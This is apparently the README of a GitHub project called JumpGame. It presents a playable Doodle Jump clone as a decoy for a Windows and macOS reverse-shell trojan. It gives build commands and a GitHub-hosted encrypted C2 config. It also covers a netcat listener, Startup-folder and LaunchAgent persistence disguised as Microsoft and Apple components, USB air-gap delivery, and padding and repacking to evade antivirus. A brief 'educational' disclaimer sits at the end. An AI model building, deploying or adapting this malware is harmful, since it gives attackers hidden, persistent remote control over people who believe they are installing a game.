

# JumpGame

**Doodle Jump — bundled with platform-specific reverse shell payloads**

[](https://python.org)
[](https://pygame.org)
[](https://pyinstaller.org)
[](https://apple.com)
[](https://microsoft.com)
[](#license)

A functional Doodle Jump game written in Pygame that serves as a front-end decoy while a reverse shell backdoor installs in the background. The project includes a cross-platform build orchestrator that produces polymorphic payloads for Windows and macOS, manages C₂ configuration on GitHub, and handles USB-based air-gap delivery.

---

## Installation

```bash
# Clone the repository
git clone https://github.com/grumbachraphael-blip/JumpGame.git
cd JumpGame

# Install Python dependencies
pip3 install pyinstaller pygame requests
```

### Platform Requirements

| Dependency | Version | Windows | macOS | Required? | Purpose |
|---|---|---|---|---|---|
| Python | ≥ 3.10 | ✅ | ✅ | **Yes** | Runtime |
| Pygame | ≥ 2.0 | ✅ | ✅ | **Yes** | Game engine |
| PyInstaller | ≥ 6.0 | ✅ | ✅ | **Yes** | Payload packaging |
| requests | ≥ 2.31 | ✅ | ✅ | **Yes** | GitHub API |
| Wine | ≥ 9.0 | — | ✅ | *Only for Windows builds from macOS* | Cross-compilation |
| ngrok | ≥ 3.0 | ✅ | ✅ | **No** — C₂ works over LAN/internal network without it | NAT tunnel |

```bash
# macOS only — install Wine for Windows cross-compilation
brew install wine

# Optional — install ngrok for C₂ tunneling (only needed for NAT traversal)
# Not needed if target is on the same LAN/internal network
brew install ngrok    # macOS
# or: choco install ngrok  # Windows
ngrok config add-authtoken YOUR_TOKEN
```

---

## Setup

### GitHub Configuration

The C₂ channel uses a public GitHub repository as a read-only config server.  
Run the setup wizard once:

```bash
python3 Builder/Builder.10h.py --config
```

You will be prompted for:

| Setting | Description |
|---|---|
| GitHub Token | Classic PAT with `repo` scope |
| Repository | `owner/repo` name (e.g. `grumbachraphael-blip/JumpGame`) |
| Config path | File name inside the repo (e.g. `config.json`) |
| Branch | Usually `main` or `master` |
| Encryption key | Any string — XOR key shared with all agents |
| Raw config URL | Full URL to the raw file on GitHub |

Credentials are saved to `Builder/github_config.json` (gitignored, permissions `0o600`).

### Encryption Key

The XOR cipher key (`PASSWORD` / `GITHUB_TARGETS_ENC_KEY`) must match across all components:

- `agent.py:21` — `PASSWORD`
- `Builder/Builder.10h.py` — `GITHUB_TARGETS_ENC_KEY`
- Embedded in `JumpGame_WIN.py` as the `TEXT` variable

---


## Usage

### Build

```bash
# Default: interactive build (prompts for targets, ngrok, USB)
python3 Builder/Builder.10h.py
```

On first run (or when missing credentials), run the setup wizard:

```bash
python3 Builder/Builder.10h.py --config
```

The builder auto-detects the host OS and presents an interactive menu:

> **No ngrok? No problem.** The builder uses your internal LAN IP (`192.168.x.x`) as the primary C₂ target. If the target is on the same network, ngrok is unnecessary. ngrok is only needed when the target is outside your LAN (e.g. remote WAN deployment).

```
What to do?
  1) ♻ Reset GitHub Config
  2)  Make macOS Game Payload
  3) ▣ Make Windows Game payload
```

**Build matrix:**

| Host OS | Can build for macOS | Can build for Windows |
|---|---|---|
| Windows | ❌ | ✅ (native PyInstaller) |
| macOS | ✅ (native PyInstaller) | ✅ (via Wine + PyInstaller) |

#### Build Flow



### Windows Payload

Runs natively on Windows hosts, or cross-compiled via Wine on macOS:

```bash
# On Windows (native):
pyinstaller --onefile --noconsole ^
  --hidden-import=pygame ^
  --icon=MyIcon.ico ^
  --version-file=version.txt ^
  --add-data=inside_icon.png;. ^
  --name JumpGame ^
  JumpGame_WIN.py

# On macOS (cross-compile via Wine):
wine pyinstaller --onefile --noconsole \
  --hidden-import=pygame \
  --icon=MyIcon.ico \
  --version-file=version.txt \
  --add-data=inside_icon.png;. \
  --name JumpGame \
  JumpGame_WIN.py
```

The resulting `JumpGame.exe` will:
- Launch the Doodle Jump game in the foreground
- Drop a VBScript to `%TEMP%\WinSystem32.vbs` in a background thread
- Copy the VBS to the Startup folder (`%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup`)
- Mark it hidden + system
- Execute via `wscript.exe` — the VBS loops every 4 seconds running a PowerShell reverse shell that fetches C₂ targets from GitHub

### macOS Payload

The builder packages `agent.py` as a background-only `.app`:

```bash
# Under the hood:
pyinstaller --noconfirm --windowed --onefile \
  --name "Apple Important" \
  --strip --icon=AppIcon.icns \
  --hidden-import=base64 \
  agent.py
```

The compiled agent is injected into `JumpGame.app/Contents/Resources/Apple Important.app/` with `LSBackgroundOnly=true` (no dock icon). The outer `JumpGame.app` bundle runs a shell script (`GAME.command`) that:

1. Installs the agent to `~/.apps/Apple Important.app`
2. Creates a LaunchAgent at `~/Library/LaunchAgents/com.apple.system.service.plist`
3. Loads the LaunchAgent and launches the agent
4. Opens the Doodle Jump decoy game (a separate PyInstaller-compiled `.app` inside `Resources/`)

The game decoy and the agent are both Pygame / Python applications — the game UI is rendered by Pygame, identical to the Windows build. The macOS bundle wrapper is a delivery mechanism only.

The macOS agent will:
- Fetch encrypted C₂ config from `RAW_GITHUB_TARGETS_URL`
- XOR + base64 decrypt target IPs and ports
- Try each target in order (internal IP first, then ngrok tunnel if configured)
- Spawn `/bin/bash -i` over the socket with full PTY
- Retry every 10 seconds on disconnect

> **LAN-only mode:** If only `INT_IP` is set in the config (no ngrok), the agent only tries the internal address. No internet access needed — works on an isolated LAN.

### C₂ Listener

Start a TCP listener on the operator machine:

```bash
nc -lvnp 4444
```

The agent connects back and provides a bash reverse shell.

### USB Deployment

The builder automatically detects mounted volumes and offers to copy the payload (platform-specific behavior):

- **On macOS**: detects volumes under `/Volumes/`, copies `JumpGame.app` via `ditto`, inflates EXE with 2–7 MB null bytes for hash polymorphism, ejects after copy
- **On Windows**: copies `JumpGame.exe` to detected drives, inflates with 2–7 MB null bytes

---

## Features

- **Polymorphic builds** — every build regenerates `RANDOM`, `TEXT`, and the encrypted payload string; no two binaries share a hash
- **Doodle Jump decoy** — fully playable 480×640 platformer with enemies, power-ups, and parallax clouds
- **Dual-platform C₂** — Windows (PowerShell + VBS) and macOS (Python + bash) agents
- **GitHub-hosted config** — XOR-encrypted targets pushed to a public repo; agents pull and decrypt at runtime
- **LAN-only C₂** — works over plain internal IP (`192.168.x.x:4444`). No internet, no ngrok, no external services required.
- **Multi-target C₂** — internal IP and ngrok tunnel with automatic failover
- **Startup persistence** — Windows via Startup folder VBScript; macOS via LaunchAgent masquerading as `com.apple.system.service`
- **Air-gap delivery** — auto-copies payloads to USB volumes with conflict resolution
- **ngrok is optional** — C₂ works over plain internal LAN with zero external dependencies. ngrok only needed for WAN/NAT traversal.
- **Fake Microsoft metadata** — PyInstaller `--version-file` claims `CompanyName: Microsoft Corporation`

---

## Tech Stack

| Component | Technology |
|---|---|
| Game engine | Pygame 2.x |
| Payload packaging | PyInstaller 6.x |
| Cross-compilation | Wine 9+ (macOS → Windows only) |
| C₂ channel | GitHub raw file + XOR cipher |
| Windows shell | PowerShell via VBScript |
| macOS shell | Python → `/bin/bash -i` |
| Tunneling | ngrok TCP |
| Cryptography | XOR + base64 (symmetric) |
| Icons | `.icns` / `.ico` / `.png` |
| Game UI | Pygame (same code on both platforms) |

---

## Project Structure

```
JumpGame/
├── JumpGame_WIN.py          # Windows trojan — Doodle Jump game + PS backdoor
├── agent.py                 # macOS/Linux reverse shell agent
├── version.txt              # Fake Microsoft PE version metadata
├── .gitignore
├── AGENTS.md                # Developer onboarding
│
├── Builder/
│   └── Builder.10h.py       # Build orchestrator — packaging, GitHub, ngrok, USB
│
├── JumpGame.app/            # macOS delivery bundle (shell-based wrapper)
│   └── Contents/
│       ├── Info.plist       # Bundle metadata (com.raphael.game)
│       ├── MacOS/
│       │   └── stub executable
│       ├── Resources/
│       │   ├── GAME.command               # Persistence installer script
│       │   ├── Apple Important.app/        # Compiled macOS agent (no dock icon)
│       │   ├── JumpGame.app/               # Compiled Doodle Jump decoy (Pygame)
│       │   ├── MyIcon.icns
│       │   └── *.lproj/                   # Localization resources
│
├── inside_icon.png          # Game window icon
├── AppIcon.icns             # macOS agent icon
├── MyIcon.icns              # macOS bundle icon
└── MyIcon.ico               # Windows payload icon
```

---

## Game Details

The Doodle Jump implementation (`run_jump_game()` in `JumpGame_WIN.py:127`) runs at 56 FPS on a 480×640 canvas.

| Feature | Detail |
|---|---|
| Resolution | 480 × 640 |
| Framerate | 56 FPS |
| Gravity | 0.4 px/frame² |
| Jump velocity | −13 px/frame |
| Platform types | Normal (green, moving/static), Breakable (brown) |
| Enemies | Ground enemy (2-frame animation), Flying enemy (sweeping) |
| Power-ups | Golden Boots (double jump, 5s), Purple Potion (reversed controls, 5s) |
| Scrolling | Camera follows player upward |
| Scoring | Vertical distance in pixels |
| Font | Custom bitmap rendering (no system fonts) |
| Sprites | ASCII art → pixel surface with color maps |

### Gameplay

```python
# Arrow keys or WASD to move
# Jump on platforms to ascend
# Land on enemies from above to defeat them (+150 score)
# Collect golden boots for super jumps
# Purple potion reverses controls
# Avoid falling off screen or touching enemies from the side
```

---

## Encryption

All C₂ targets use XOR cipher with base64 encoding, implemented identically in every component:

```python
def enc(plaintext, password):
    enc_bytes = bytearray()
    for i, c in enumerate(plaintext):
        enc_bytes.append(ord(c) ^ ord(password[i % len(password)]))
    return base64.b64encode(enc_bytes).decode()

def dec(ciphertext, password):
    enc_bytes = base64.b64decode(ciphertext)
    dec_chars = []
    for i, b in enumerate(enc_bytes):
        dec_chars.append(chr(b ^ ord(password[i % len(password)])))
    return "".join(dec_chars)
```

| Component | Function | Language |
|---|---|---|
| `Builder/Builder.10h.py` | `enc(x, password=...)` | Python |
| `agent.py` | `dec(x)` | Python |
| `JumpGame_WIN.py` | `d(x, pwd)` | Python |
| PowerShell payload | `Decode-XOR` | PowerShell |

---

## Persistence Mechanisms

### Windows

The VBS script (`WinSystem32.vbs`) is copied to:
```
%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\WinSystem32.vbs
```

It is marked with `attrib +h +s` (hidden + system) and executed via `wscript.exe`. The VBS loops every 4 seconds, running a PowerShell reverse shell that fetches C₂ targets from GitHub, decrypts them, and attempts connections.

### macOS

A LaunchAgent plist is written to:
```
~/Library/LaunchAgents/com.apple.system.service.plist
```

It launches `~/.apps/Apple Important.app` at load. The agent app is hidden (`chflags hidden`) and runs without a dock icon (`LSBackgroundOnly=true`). The agent monitors connection state and retries every 10 seconds.

---

## Game Config Tuning

Constants in `JumpGame_WIN.py` that control gameplay difficulty:

```python
GRAVITY = 0.4                    # Gravity acceleration
JUMP_VELOCITY = -13              # Jump initial velocity
GOLDEN_BOOTS_JUMP_MULT = 1.3    # Boots jump multiplier
GOLDEN_BOOTS_DURATION = 5.0     # Boots duration (seconds)
PURPLE_POTION_DURATION = 5.0    # Potion duration (seconds)
ENEMY_START_PERCENT = 20        # Enemy spawn chance at score 0
ENEMY_INCREASE_PER_1000 = 2     # Enemy % increase per 1000 score
ENEMY_MAX_PERCENT = 25          # Enemy max spawn chance
FLYING_ENEMY_CHANCE = 0.05      # Flying enemy spawn chance
FLYING_ENEMY_SCORE_MIN = 1500   # Minimum score for flying enemies
```

---

## Agent Config

`agent.py` defaults that can be overridden by the GitHub config:

```python
INT_IP = ""                      # Internal C₂ IP
INT_PORT = 4444                  # Internal C₂ port
NG_HOST = ""                     # ngrok host (from config)
NG_PORT = 0                      # ngrok port (from config)
GITHUB_CONFIG_URL = ""           # Config URL (set during build)
PASSWORD = ""                    # XOR key (set during build)
```

The agent uses a thread-safe `connection_active` flag to prevent concurrent connections and monitors the shell process with `select()` and `os.kill(pid, 0)` for liveness.

---

## Troubleshooting

| Problem | Cause | Fix |
|---|---|---|
| `pyinstaller: command not found` (Wine) | PyInstaller not installed in Wine Python | `wine python -m pip install pyinstaller` |
| `wine: command not found` | Wine not installed | `brew install wine` |
| `GitHub API: 401` | PAT expired or invalid | Regenerate at github.com/settings/tokens |
| `GitHub API: 404` | Wrong repo or file path | Verify `REPO` and `GITHUB_FILE_PATH` in config |
| `ngrok: command not found` | ngrok not installed | `brew install ngrok` |
| Agent not connecting | Config not pushed or wrong URL | Verify `RAW_GITHUB_TARGETS_URL` returns valid JSON |
| macOS agent has dock icon | `LSBackgroundOnly` not set | Manually edit `Info.plist` in compiled `.app` |
| Game crashes on launch | Missing pygame | `pip3 install pygame` |
| Windows EXE flagged by AV | Known PyInstaller signature | Rebuild with different padding or use alternative packer |

---

## Security Considerations

- **Hardcoded PAT** — the GitHub token is embedded in `Builder/Builder.10h.py`. Rotate the token and consider environment variables for production use.
- **Shared symmetric key** — the XOR key is identical across all agents and the builder. Extracting it from one agent compromises all C₂ communications.
---


## Legal Disclaimer

This project is provided for educational and authorized security testing purposes only. Unauthorized access to computer systems is illegal. The operator is solely responsible for compliance with all applicable laws.

---

## License

UNLICENSED — This project is not licensed for use, distribution, or modification without explicit permission from the author.
